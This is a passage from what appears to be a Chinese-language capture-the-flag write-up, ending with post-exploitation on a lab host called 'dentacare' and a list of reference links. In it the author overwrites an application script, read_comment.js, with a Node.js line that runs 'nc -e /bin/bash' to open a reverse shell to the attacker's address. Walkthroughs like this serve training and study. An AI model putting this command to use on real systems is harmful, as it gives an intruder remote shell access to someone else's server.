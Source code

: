 ```bash
})();
(remote) www-data@dentacare:/opt/appli/.config$ cp read_comment.js read_comment.js.bak
(remote) www-data@dentacare:/opt/appli/.config$ echo 'require("child_process").exec("nc -e /bin/bash 172.20.10.8 2345")' > read_comment.js
```

![image-20240528204229504](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101700.png)

弹回来了！和作者做法截然不一样，理想解法可以参考作者的wp，下面第一个。

## 参考

https://www.youtube.com/watch?v=PPJOF-89KLQ

https://www.bilibili.com/video/BV1Ti421S7tt/

http://162.14.82.114/index.php/471/03/28/2024/

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug